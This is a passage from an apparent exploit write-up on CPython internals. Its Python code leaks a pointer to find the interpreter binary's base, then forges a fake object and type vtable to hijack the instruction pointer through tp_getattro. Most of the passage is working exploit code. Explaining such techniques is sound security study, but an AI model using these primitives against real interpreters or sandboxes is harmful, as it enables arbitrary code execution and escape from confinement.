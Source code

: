 All of this looks like:
```python
def find_bin_base(self):
    # Leak tp_dealloc pointer of PyLong_Type which points into the Python
    # binary.
    leak = self.leak(id(int), 32)
    cpython_binary_ptr = u64(leak[24:32])
    addr = (cpython_binary_ptr >> 12) << 12  # page align the address
    # Work backwards in pages until we find the start of the binary
    for i in range(10000):
        nxt = self.leak(addr, 4)
        if nxt == b'\x7fELF':
            return addr
        addr -= PAGE_SIZE
    return None
```

### Instruction pointer control
Recall that every `PyObject` has a pointer to its type object, e.g. a `PyLongObject` has a pointer to `PyLong_Type`, and a `PyListObject` has a pointer to `PyList_Type`. Every type object effectively functions as a vtable (amongst other things), which means there are lots of nice function pointers there. With this information its clear that if we can fake a `PyObject` and point it to a fake type object, and cause one of the vtable functions to be called, we can get control of the instruction pointer.

This is easy to set up with the aforementioned trick for creating fake objects, and we can trigger the `tp_getattro` function pointer by attempting to access a field on the fake object.

```python
def set_rip(self, addr, obj_refcount=0x10):
    """Set rip by using a fake object and associated type object."""
    # Fake type object
    type_obj = flat(
        p64(0xac1dc0de),    # refcount
        b'X'*0x68,          # padding
        p64(addr)*100,      # vtable funcs 
    )
    self.no_gc.append(type_obj)

    # Fake PyObject
    data = flat(
        p64(obj_refcount),  # refcount
        p64(id(type_obj)),  # pointer to fake type object
    )
    self.no_gc.append(data)

    # The bytes data starts at offset 32 in the object 
    self.freed_buffer[0] = id(data) + 32

    try:
        # Now we trigger it. This calls tp_getattro on our fake type object
        self.fake_objs[0].trigger
    except:
        # Avoid messy error output when we exit our shell
        pass
```
